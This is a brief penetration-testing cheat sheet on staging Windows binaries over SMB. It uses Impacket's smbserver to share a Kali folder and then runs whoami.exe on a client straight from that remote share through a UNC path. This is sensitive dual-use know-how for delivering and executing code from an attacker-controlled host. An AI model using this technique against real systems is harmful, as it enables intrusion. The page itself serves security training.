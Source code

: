 SMB Server

``` bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe
```

``` bash
smbserver.py a /usr/share/windows-binaries/
```

``` bash
sudo impacket-smbserver a .
```

SMB Client

``` bash
\\<ip_server>\a\whoami.exe
```